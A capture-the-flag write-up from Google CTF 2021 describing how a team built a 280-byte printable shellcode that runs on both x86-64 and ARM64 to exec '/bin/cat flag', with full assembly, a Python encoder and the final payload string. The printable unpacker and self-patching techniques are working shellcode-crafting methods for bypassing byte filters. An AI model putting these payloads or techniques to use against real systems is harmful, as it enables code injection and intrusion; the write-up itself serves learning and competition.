




# ABC ARM AND AMD

This challenge was part of the 'Misc' category at the Google CTF 2021 (during June 18-17 2021).
It was solved [The Maccabees](https://ctftime.org/team/60231) team.

Full solution is available [here](solution/shellcode) (run `compile.sh` in order to build `main.shellcode`; you can use `send_solution.py` to send it to the server).


## The Challenge

The challenge description:

```
Provide a payload that prints the contents of the 'flag' file and runs on both
x86-64 and arm64v8.

The payload may only contain bytes in the range [0x20, 0x7F] and cannot be
longer than 280 bytes.

Note that the arm64v8 payload is evaluated under QEMU.
```


In short, we need to write a shellcode, that satisfy the following constraints:

1. The shellcode should print the contents of the `"flag"` file (to `stdout`).
2. The shellcode should work on both ARMv8 (A64 instruction set) and x86-64.
3. The shellcode length must be equal-or-less than 280 bytes.
4. All shellcode bytes must be printable (between `0x20` and `0x7f`).


With the challenge we are given 2 binaries: `chal-aarch64` and `chal-x86-64` - which are the ELF binaries that are responsible for executing our shellcode.
The logic there is pretty simple - they call `mmap` with `MAP_PRIVATE | MAP_ANONYMOUS ` (which means the mapping is initialized to 0), with protection `PROT_READ | PROT_WRITE | PROT_EXEC` (which means the region is RWX), and with size `0x1000` (a single page). Afterwards, the shellcode is read to the start of the allocated page, and then the program branches to the start of the shellcode.

In addition, we get `libc-aarch64.so` and `libc-x86-64.so`. Honestly - I have no idea why ¯\\\_(ツ)\_/¯, our solution doesn't rely on `libc` at all. We might be missing something here, but we didn't find any practical way to exploit our knowledge of libc 😅


When connecting to the server (`nc shellcode.2021.ctfcompetition.com 1337`), it expects to receive the shellcode, and we get the following message:

```
x86-64 passed:  False
aarch64 passed: False
Sorry, not quite :(
```

It is obvious that the server runs both challenge files with our input, and if (and only if) both programs print the flag - the server sends the flag back to us.


## Our solution

Obviously, there are multiple challenges to overcome here in order to create a working solution. We'll go through each of those challenges and explain our struggles and solutions, and finally - we'll put everything together in order to create the desired payload.

Let's go!


### Polymorphic Shellcode

The first and obvious obstacle to overcome is the need for the shellcode to work on both ARM and x86 instruction sets.

We will used a well-known technique (also used in [Midnightsun CTF 2019 Polyshell challenge](https://tcode2k16.github.io/blog/posts/2019-04-08-midnightsunctf-polyshell-writeup/)): we will find an sequence of bytes, which:

1. In the first ISA - is any operation which, in practice, is no-op for us.
   This could be, for example, any operation that operates only on registers (and thus can't fault), and doesn't clobber any important register value.
2. In the second ISA - is some branch instruction, which will branch forward. 

This will allow us to write 2 different shellcodes, and run them conditionally - according to the architecture: in the first ISA, the first instruction will execute, and then we'll "fall-through" to run the execute the next bytes. In the second ISA - we will branch forward, executing a different sequence of bytes.



Finding the relevant "polymorphic instruction" for our use case is quite easy. As you'll see in a bit - there are no relevant branch instruction in ARM64 which satisfies the above constraints. So, we will try to find an instruction that is a branch in x86-64, and also a no-op for us in ARM64. We'vef found the following sequence of bytes:

```
.byte 0x72
.byte 0x66  # Offset forward
.byte 0x7e
.byte 0x51
```

In x86-64 - this is `jc` instruction forward (using the offset in the second byte). In our scenario, when this instruction executes, the carry flag is (empirically) always set - which means we always take the branch.

In ARM64 - this is `SUB W18, W27, #0xF9F, lsl #12` (practically no-op - clobbers W18 value).


This is great! But there is one crucial caveat  - the offset for the `jc` instruction is the value of the second byte. But - it must be printable (because this byte is part of our shellcode), which means this byte maximum value must be `0x7f` (and even without this constraint - because this value is signed 8-bit immediate value, `0x7f` is the maximum amount of bytes we can branch forward). This means we must fit our ARM64 shellcode in about ~124 bytes, which is, eh, pretty hard 😅. The ARM64 shellcode took us about ~200 bytes - which introduced a problem with this strategy.

To solve this issue, we'll just use the polymorphic instruction twice: our first branch won't be directly to the x86 shellcode, but to the middle of the ARM64 shellcode. There, we'll add another polymorphic instruction, which will branch forward to the actual x86 shellcode (and, because in ARM64 it is a no-op - it won't interfere with our ARM64 logic).

 

 


### ARM64 shellcode

#### Why it's hard

This was, at least for us, the most challenging part of this task. In contrast to x86-64 - which contains a lot of 1-byte instructions (and thus - a lot of "printable" instructions), and in which the immediates are whole bytes in the final encoding - in ARM64, all instructions are exactly 4-bytes long; and the registers / immediates are encoded inside this instruction, in various offsets and sizes.

This makes encoding a lot harder: a lot of instructions are not usable from the get-go; and in a lot of other instructions, some immediates or registers (or combination of both) are not allowed.

Let's give a relevant example for this struggle: the amount of "legal" branch instructions in ARM64 is very limited (and practically only contains `TBZ`, `CBZ` and `CBNZ` instructions). This is how the `TBZ` instruction is encoded (from the [Arm Architecture Reference Manual Armv8, for Armv8-A architecture profile](https://developer.arm.com/documentation/ddi0487/latest) - C6.2.331):



Notice that the byte in bits 8-to-15 must be at least 0x20 (because of the challenge constraint). Because the lowest 3-bits of the `imm14` field (which is the offset to the branch) are bits 5-to-7, this means that the value of `imm14`, if it is positive - must be at-least 256 (`20 << 3`).

If we want it to be negative - we should notice that bits 7, 15, 23 and 31 must be 0 - because otherwise, we'll have a byte value larger than `0x80` (which is not printable). This constraint alone usually rules out a lot of combinations (and even whole instructions), and here - because bit 15 and bit 7 must be 0 - if we want the immediate offset to be negative, its absolute value must be large enough (in fact - it can't be in the range of our 280 allowed bytes).


At first, we tried to write a simple `execve("/bin/cat", {"/bin/cat", "flag", NULL}, NULL)` ARM64 shellcode, and hoped to "fix" the problematic parts afterwards. But, so many instructions were not allowed, and were not easy replaceable - that we decided to choose another strategy.


#### ARM64 printable unpacker

Our new strategy is the following: we won't implement the logic we wanted in a printable manner; instead, we'll implement an "unpacker" shellcode, which will take a printable encoding of the actual ARM64 shellcode we want to execute, unpack it into memory, and execute it.

When we tried to find similar implementation, we immediately stumbled upon an **amazing** article, called [ARMv8 Shellcodes from 'A' to 'Z'](https://arxiv.org/abs/1608.03415v2). This article presents an implementation to the above idea: the authors wrote an alphanumeric ARM64 unpacker, which allows them to "convert" any ARM64 shellcode to be alphanumeric. The article goes through the challenges in creating such a shellcode, and builds various "high-level constructs" using alphanumeric ARM64 instructions. A few takeaways from the article:

1. The article authors constraints on shellcode bytes are much more strict - they used only alphanumeric bytes (letters and digits), but we can use the whole `[0x20, 0x7f]` byte range.
2. But - the article did not impose any length constraint on itself - and, because of the alphanumeric constraint, it must be a minimum length of 4276 bytes. That means we can't just use the article's unpacker for our needs.
3. The article doesn't solve some issues, such as cache coherency, which we will need to solve later.


So let's build our own unpacker, based on the article's unpacker. I will walk you through the main and interesting parts (and hide / change some things we'll talk about later 😉). Notice that choosing the correct register numbers, immediates and instructions was not trivial at all, and required a lot of trial-and-error.


First, we assume (and validated empirically, using a debugger), that `W11`, `W26` and `W27` are all zero. We initialize two registers for offsets: the first one is the offset in which we'll write the unpacked payload - will reside in `W2`; and the second one is the offset from which we will read the encoded payload - will reside in `W11`:

```asm
# W2 is the offset in which we write the decoded shellcode
# (Which is 0x6d)
ANDS    W2, W27, W27, lsr #12
ADDS    W2, W2, #4044
SUBS    W2, W2, #3994
ADDS    W2, W2, #4047
SUBS    W2, W2, #3988

# W11 is the offset from which we read the encoded shellcode
# (Which is 0x70)
ANDS    W11, W27, W27, lsr #12
ADDS    W11, W11, #3978
SUBS    W11, W11, #3866
```

We set `W26` to be `1` (will be useful in a bit):

```assembly
    # Set W26 = 1
    ADDS    W26, W26, #0xC1A
    SUBS    W26, W26, #0xC19
```

Next, we will write the decoder loop. First, it will read 2 bytes from the encoded input (obviously, we will concatenate the encoded payload to the end of the shellcode).
Here, we assume that `X0` is the address of the start of our shellcode page (this is always true because our shellcode is called using a `BLR X0` instruction).

```assembly
loop:
    /* Load first byte in A */
    LDRB    W18, [X11, X0]

    /* W11++ */
    ADDS    W11, W11, W26, uxth

    /* Load second byte in B */
    LDRB    W25, [X11, X0]

    /* W11++ */
    ADDS    W11, W11, W26, uxth
```

Next, we will "mix-in" the input bytes; we'll use the same algorithm that is used in the article.
This practically takes 4-bit of information from each printable encdoed byte, and decodes them into a single, fully-controllable byte.

```assembly
    /* Mix A and B */
    EON     W18, W27, W18, lsl #20
    .word 0x72304f39 /* ANDS W25, W25, #0xFFFF000F (printable version ;) ) */
    EON     W25, W25, W18, lsr #16
```

We will write the decoded byte to the output offset:

```assembly
    /* Write decoded shellcode byte into the end */
    STRB    W25, [X2, X0]

    /* W2++ */
    ADDS    W2, W2, W26, uxth
```

Finally, we will conditionally branch backwards to the loop. We will do it until `W2` is `256` (which means the offset of the unpacked shellcode hit 256); afterwards - we will just continue execution straight into the unpacked payload.

```assembly
TBZ W2, #0x8, loop
```


So far, so good. Let's talk about some complications in the above logic, and how we solved them:

#### The `TBZ` conundrum

There was a little lie in the above description of the unpacker: the `TBZ W2, #0x8, loop` instruction is not "printable" one; its actual encoding it `[0x62, 0xfe, 0x47, 0x36]` - but `0xfe` is not a valid byte!

As we discussed before - there are no valid branch instructions with a small-enough offset to fit in our 280-bytes (the minimum one we found is 1028-bytes offset forward - which is way too far). Thus, we use the following trick: in the start of our code, we patch the second byte of the `TBZ` instruction, to make it `0xfe`, thus making the instruction legal. In fact, we could just abuse the unpacking loop itself to overwrite the `TBZ` instruction. This way, the first iteration of the loop will "fix" the `TBZ` instruction before executing it for the first time, solving our issue.

Notice this required the `TBZ` to have only one invalid byte. This is fairly simple to achieve, by making the entire loop size large enough (sadly, preventing us from further optimizing the loop size).


#### ARM64 cache incoherency problems

The `TBZ` patching sounds like a neat idea at first. But, ARMv8 (and earlier ARM versions as-well) have a well-known shellcoding problem.

Unlike x86, in which the architecture guarantees coherency between data cache and instruction cache, ARM is different: the first layer of CPU caches (L1 cache) is different for instructions (that are fetched during execution) and for data (which is read/write using `LDR`/`STR`). The instruction cache is often call an I-cache, and the data cache is called the D-cache. A very simplified illustration of the situtation:



This present an inherent problem in writing code dynamically to memory:

1. If the write operation is in not flushed yet from the L1 D-cache, when we'll try to execute code - we will fetch the data from L2 cache / main memory - but this won't be the data we wrote!
2. Even if the write operation was flushed to L2 / main memory - if the bytes of the code we re-wrote are still cached in the I-cache - we will execute the "old" data.

This is not a theoretical problem - and it should be handled in every case in which we write ARM code into memory. When single-stepping the above implementation in `gdb` - the code runs fine; but when running it without single-stepping, or on the server - the "old" (unpatched) `TBZ` instruction runs, and our program faults (because the `TBZ` offset is incorrect - and outside our page).

Usually, this issue is solved with the compiler-builtin `__clear_cache`, which invalidates the CPU caches for a specific memory range. But, sadly, the needed instructions for implementing `__clear_cache` in ARM64 are not printable 😥

The key fact for solving the issue is hidden in the challenge description - `Note that the arm64v8 payload is evaluated under QEMU`. This means that although the cache problems usually requires flushing the CPU caches, we might be able to abuse the QEMU implementation to overcome this issue (and maybe, under the QEMU implementation - the root cause for the above symptom is different?).

At first, we tried to insert various "complicated" instructions (floating-point operations) after the TBZ patching, hoping to "stall" QEMU for enough time, so its caches will be flushed. This, sadly, didn't work at all.

Then, without going into the QEMU emulation, we assumed that the QEMU emulation flow looks something like that:

1. QEMU divides the code into basic blocks (each basic block ends with a branch).
2. When QEMU needs to run a basic block for the first time, it optimizes it (using JIT?) and caches the results for later executions.

So, assuming this logic, the problem is obvious: because all of our code is one large basic block, QEMU optimizes it as soon as we start running, and the `TBZ` patch is not updated in the cached JIT implementation of QEMU.

If this is true, the solution is rather simple: right after the `STRB` instruction that patches `TBZ`, we will create a new basic block by adding a branch instruction, in which the branch is never taken. This will hopefully prevent QEMU from pre-optimizing the code after the branch, up until the branch will not be taken, and at this stage - the `TBZ` will already be patched. We chose to add a `CBZ` instruction (`W2` is always non-zero, so the branch is never taken):

```assembly
/* This CBZ is actually NOP (as W2 is by defintion non-zero here).
 * We put it here in order to make sure the patching of the TBZ will work.
 * The offset here is crafted in order to make the instruction printable.
 */
cbz_:
    CBZ     W2, cbz_+608324
```

...it works! Indeed, adding the `CBZ` makes the `TBZ` patch apply, and our code works now even if not debugged.

We are still not sure if this is because the above assumptions are correct, or maybe there is something else here we don't understand. But this still works great in practice 😋


#### Don't forget the polymorphic branch!

Of-course, we can't forget the polymorphic branch we must insert, at a specific offset inside our ARM64 shellcode. It will be no-op in our code, but in x86 will branch to the x86 shellcode.

```assembly
# This is NOP in aarch64, but jumps ahead in x86_64
x86_branch_opcode:
    .byte 0x72
    .byte 0x60
    .byte 0x7e
    .byte 0x51
```


#### Unpacked ARM64 shellcode

So, we have a working unpacker! What ARM64 shellcode should we unpack and execute? Remember - this shellcode is without any constraints on the values of the bytes! We wrote a simple ARM64 shellcode that practically runs `execve("/bin/cat", {"/bin/cat", "flag", NULL}, NULL)`, and optimized its size a bit:

```assembly
_start:
    mov     x8, 221     /* __NR_execve */
adr_bin_cat_addr:
    adr     x0, adr_bin_cat_addr+156    
    adr     x1, pointer_array+0x100
    mov     x2, #0
    adr     x5, flag
    stp     x0, x5, [x1, #0]
    svc     #0

flag:
    .asciz "flag"
    
pointer_array:
```

What is happening here?

* We put `__NR_execve` in X8 (according to the [ARM64 syscall calling convention](https://man7.org/linux/man-pages/man2/syscall.2.html)).
* We put `"/bin/cat"` string in X0. Notice we use a trick here: in the last 8 bytes of the whole cobmined shellcode (including the x86-64 one), we put the string "/bin/cat". Because the whole page is full of zero bytes before copying the shellcode, the string will be null-terminated by the 281th byte in the page.
  We will use the `"/bin/cat"` string in both shellcodes, thus saving at least 8 bytes in the whole shellcode overall.
* We create the `{"/bin/cat", "flag", NULL}` array and put it in X1. Again, we rely on the fact that all the bytes after the ending of our shellcode are zeros. So we just put in memory the pointers to `"/bin/cat"` and  `"flag"` (using `STP`), and the final `NULL` pointer is already there.
* We null X2 (this is the `env`).
* Finally, we invoke the `execve` syscall using `svc #0`.


Obviously, this shellcode indeed contains a lot of "unprintable" bytes. We encode it and add it to the end of our shellcode, using the following logic (based on the logic from the article):

```python
def mkchr(c):
    return chr(0x40+c)

def main():
    # b'\xfe\x47\x36' are the 3 last bytes of the TBZ opcode in aarch64-shellcode.S
    # Because the unpacking start unpacking and overwriting over the TBZ opcode, we add
    # them here.
    s = ""
    p = b'\xfe\x47\x36' + open("aarch64-flag.shellcode", "rb").read()
    for i in range(len(p)):
        q = p[i]
        s += mkchr((q >> 4) & 0xf)
        s += mkchr(q & 0xf)
    s = s.replace('@', 'P')
    open("aarch64_print_flag_encoded.bin", "wb").write(s.encode('ascii'))
```

After encoding the above shellcode, this is how it looks:

```
ONDGCFJHAKHPMBNPPDPPAPLAPHPPCPPBPPHPMBFEPPPPAPBPADPPJIPAPPPPMDFFFLFAFGPP
```

Notice it was critical to optimize the `execve` shellcode as much as we can - as each byte in this shellcode "costs" us 2 bytes in the actual payload.


### x86-64 shellcode

After writing the ARM64 printable unpacker - writing the x86-64 shellcode is a lot easier. We could try to write another unpacker, in x86-64. But this is not really needed, as x86-64 contains a lot of useful instructions that are printable, and we could just "fix-up" the missing bits.

In order to do so, we found the great article [Alphanumeric shellcode - Security101](https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf), which is an article about building x86-64 alphanumeric shellcodes (again - a more strict constraint than our printable constraint).

So, let's build the needed primitives so the shellcode will work:


#### Finding the shellcode address

This is rather easy, as the shellcode is called using `call rdx` from the challenge ELF. So, the shellcode page address is stored in `rdx` (and, empirically, also in `rsi`).


#### Moving data between registers

This is also rather easy, using `pop`/`push` combinations (as, for a lot of registers, `push reg`/`pop reg` is a single-byte instruction, which is sometimes printable). For example, if we wanted to `mov rax, rdx`, we could do the following:

```assembly
push rdx
pop rax
```


#### Patching instructions

Because not all instructions are printable, but some are absolutely necessary (for example - the `syscall` instruction - which is `0x0f, 0x05`), we must be able to "patch" instructions in memory. Meaning - we need to dynamically change the memory contents, in order to create the needed "unprintable instructions".

Fortunately, `xor` instructions with immediate offset are often printable (assuming the base register is `rax` or `rcx`, and the immediate offset is printable itself). For example, assuming `rax` contains some address, we can `xor` 1, 2, 4 or 8 bytes ahead:

```assembly
/* Printable instructions - assuming 0x5f is in the printable range */
xor [rax+0x5f], bl		/* 1 byte */
xor [rax+0x5f], bx		/* 2 bytes */
xor [rax+0x5f], ebx		/* 4 bytes */
xor [rax+0x5f], rbx		/* 8 bytes */
```


#### Calculating pointers to the shellcode

We can't use `add` instruction (as they are not printable), but we can abuse the fact that in x86, we can operate on the lower parts of a register, without modifying the more-significant bytes. For example, if we modify the `al` register (which is 1-byte sized), all the other 7-bytes of the `rax` register stay intact.

Thus, because we know the shellcode base address is page-aligned (allocated using `mmap`), we can just `xor` the lowest byte of the base shellcode pointer to achieve pointers to inside our shellcode:

```assembly
# Put the shellcode start address in rax
push rdx
pop rax

# Now rax will contain shellcode_base+0x7f
xor al, 0x7f
```


#### The printable offsets conundrum

The 2 above primitives are nice and elegant, but have one fateful limitation: the offset where we patch the instruction in, or the offset we add to the page base - must be printable - which means it must be either in the range of `0x20`-to-`0x7f`, or, for 2-byte offsets - at least `0x2020` (which is too large for our needs).

This limitation is problematic in practice, because our polymorphic instruction causes the x86-64 shellcode to be last. Because our ARM64 shellcode is about ~200 bytes, it means that by-design, the offsets in which our x86 shellcode runs are between at least `0x80` to `0xff` (which are not printable), or between `0x100` to `0x118` (the 256 to 280 offsets) - which, again, are not printable.

To solve this issue, we will use the following strategy:

* We will use `rcx` as the base for `xor`-ing and patching instructions. We will set `rcx` to be `page_base + 0xe9`, so the offsets for the relevant instructions (for example - the `syscall` patch) will be at least `0x20` (otherwise - we won't be able to encode it in the `xor [rax+0x20], bl` instruction).
* We will use `rax` as the base for calculation of pointers. We assume all of our pointers are after offset `0x100` (practically - we only need pointers for the strings and the pointers array). We will set `rax` to be `page_base + 0x17f`, so we can `xor` it with printable values in order to get pointers in the correct range.

Sounds great! But, initializing the `rax` and `rcx` to such value is very hard, as `0x80` or `0x100` are, by definition - not printable. So how do we accomplish this?

Remember are big limitation is the fact that `xor`-ing won't help us to "turn on the most-significat-bit" (meaning: creating a value between `0x80` and `0xff`) - because both values that are `xor`-ed must be printable.
But, if we were able to run an `add` instruction - we could add two values, and the addition will make the value larger than `0x80`.  Most of the encoding of the `add` instruction are not printable, but, it is because their bytes are smaller than `0x20` (and not larger than `0x80`) - values that we can reach with `xor`. So, using our `xor` to memory, we might be able to forge `add` instructions that will help us set the correct values to `rax` and `rcx`.

May I present to you, our (overcomplicated?) solution - the instruction-patching-instruction-patching-instruction shellcode:

First, we init `rax` to be `page_base`, and `rbx` to be `0x5858585`. Afterwards, we will set `rax=page_base+0x7f` using pointer calculation, and set `rcx=page_base+0x7f` as well.

```assembly
    # Put the shellcode start address in rax
    push rdx
    pop rax

    # rbx = 0x58585858
    # We'll use it to XOR stuff later
    push 0x58585858
    pop rbx
    
    # rcx/rax now holds page_base+0x7f, we'll use it as refrence later
    # for adding / xoring bytes in the shellcode
	xor al, 0x7f
    push rax
    pop rcx
```

Now, we'll use `xor` to patch 2 instructions ahead in our code. Those instructions only requires bytes in the range `0x0` to `0x7f`, so the `xor` will suffice:

The first instruction created is an `add al, 0x100`. This will allow `rax` to be larger than `0x100` (actually - `0x17f`).

The second instruction created is `add [rcx+0x66], bx` instruction - which will patch another instruction ahead. The created instruction ahead is `add cl, 0x6a`, which requires bytes larger than `0x7f` - thus, can't be created with `xor`. But, using this `add` instruction to memory - creating this instruction is possible!

Lastly when the `add cl, 0x6a` runs, now `rcx=page_base+0xe9`.

```assembly
    # Decode "encoded_add_opcodes1" to generate our own 'add' instruction
    xor [rax+0x5f], rbx
    xor [rax+0x63], bl

encoded_add_opcodes1:
    # Will be "add al, 0x100"
    .byte 0x66
    .byte 0x5d # Will be 0x05
    .byte 0x58 # Will be 0x00
    .byte 0x59 # Will be 0x01

    # Will be "add [rcx+0x66], bx"
    # (This will decode "encoded_add_opcode2")
    .byte 0x3e # Will be 0x66 
    .byte 0x59 # Will be 0x01 
    .byte 0x59
    .byte 0x66

encoded_add_opcode2:
    # Will be "add cl, 0x6a"
    .byte 0x28 # Will be 0xd1
    .byte 0x79 # Will be 0x80    
    .byte 0x6a
```

Now we got the exact result we wanted: `rax = page_base + 0x7f + 0x100 == page_base+0x17f` - which can be used to calculate pointers in the `0x110`-`0x118` with `xor`; and `rcx = page_base + 0xe9` - which can be used to patch instructions/values in the range `0x110`-`0x118` with instructions like `xor [rcx + 0x20], bx`.


### Putting it all together

After all those shenanigans, now we can simply:

1. Patch the instruction ahead in order to create a `syscall` instruction.
2. Null-terminate the strings at the end of the shellcode (`"flag"` string) using `xor`.
3. Set-up everything for the `execve` syscall (syscall number, arguments, etc.).
4. The `syscall` instruction runs and we get our flag 🥳

This is how it looks in the final shellcode:

```assembly
    # Push, for rax later to be 0
    push rdi

    # xor the things to be xored:
    # xor the syscall
    xor [rcx + 0x20], bx # 0x109

    # xor the end of flags string
    xor [rcx + 0x26], bl # 0x10f

    # Move "/bin/cat" string to 1st argument (rdi)
    xor al, 0x6f
    push rax       # rax is 0x110
    pop rdi

    # Create array of pointers (will be NULL-terminated because of mmap)
    # 1) First move "/bin/cat" (which is in rdi) to the first location
    xor [rcx+0x60], rdi
    
    # 2) Now fetch "flag" and put in the second location
    xor al, 0x3b    # offset to "flag_path"
    xor al, 0x20
    xor [rcx+0x60+0x8], rax # rax is 0x10b

    # Now put in 2nd argument (rsi) the address of the array
    xor al, 0x42    # offset to array of pointers
    push rax
    pop rsi

    # Move syscall number to rax
    # __NR_execve == 59
    pop rax     # rax == 0 from rdi
    push rax    # for rdx later
    xor al, 59

    # Move NULL (0) to 3rd argument (rdx)
    pop rdx

    # Offset: this should be 0x109
    # This will be "syscall"
    .byte 0x57  # 0x0f
    .byte 0x5d  # 0x05

# Offset: this should be 0x10b
flag_path:
    .ascii "flag"

# this should be 0x10f
flag_path_null_terminator:
    .byte 0x58
```


### The complete solution

I present you - our glorious 280-bytes, printable, multi-architecture shellcode:

```
rf~Qb3[jB0?1Bh>qB<?1BP>q)e01)i0qIh 8Zk01Zg0qk3[jk)>1ki<q') 1"BJ4ri`8k!:+yi`8rS2J9O0r9CrJYh 8k!:+B :+"BJ4r`~Qb G6ONDGCFJHAKHPMBNPPDPPAPLAPHPPCPPBPPHPMBFEPPPPAPBPADPPJIPAPPPPMDFFFLFAFGPPCCCCCCCCCCCCCCCCCCRXhXXXX[4H1X_0XcPYf]XY>YYf(yjWf1Y 0Y&4oP_H1y`4;4 H1Ah4BP^XP4;ZW]flagX/bin/cat
```

When sending it to the server, we get the following output:

```
x86-64 passed:  True
aarch64 passed: True
CTF{abc_easy_as_svc}
```

We got our flag! `CTF{abc_easy_as_svc}`


(Notice that in practice, we wasted about ~30 minutes trying to copy-paste our shellcode into `nc`, but it just kept failing on the server... only when we sent the exact same shellcode using `pwntools` - we were successful. Who knew 😅).


## Conclusion

### Further optimizations

Although our shellcode is exactly the needed 280-bytes, we believe it can be optimized even further:

1. Because our build system was just a bunch of scripts, we forgot to re-encode the `execve("/bin/cat", {"/bin/cat", "flag", NULL}, NULL)` shellcode after we optimized it. Thus, we actually could have saved 18 bytes in the final payload 😅
   I didn't bother to recalculate all the offsets, so I ended up just padding the ARM64 shellcode with 18 unused bytes.
(Notice this optimization can make a huge difference, as it means maybe we can fit the x86-64 shellcode in the first 256-bytes, thus solving the complicated solution for calculating pointers with offset larger than `0x100` inside the page).
   
2. Both in x86-64 and ARM64, we chose to run a single syscall - `execve("/bin/cat", {"/bin/cat", "flag", NULL}, NULL)`. This sounds very efficient, but setting up `execve` arguments (especially the second one - array with pointers to strings) takes a lot of instructions.
   Possibly, we could try a combination of 2 syscalls:

   1. `openat(AT_FDCWD, "flag", O_RDONLY)`
   2. `sendfile(stdout_fd, flag_fd, NULL, flag_size)`

   We didn't check this option, but giving it a shot might be able to optimize the shellcode and save some bytes (at least for one of the architectures).

3. General optimizations are absolutely possible. For example, in the ARM64 shellcode, we use 5 instructions (20 bytes!) to set `W2 = 0x6d` (a single `ANDS` to zero it, and 2 `ANDS`/`SUBS` pairs to get it to the correct value). This absolutely can be optimized (we believe, at least), although not trivially.


### Final words

Overall, it was a great challenge! Although it took us about ~25 hours of work during the CTF to solve, we learned a lot about ARM64 and x86-64, and had a lot of fun.

See you next CTF!

~ **TURJ** && **OG** && **or523** 

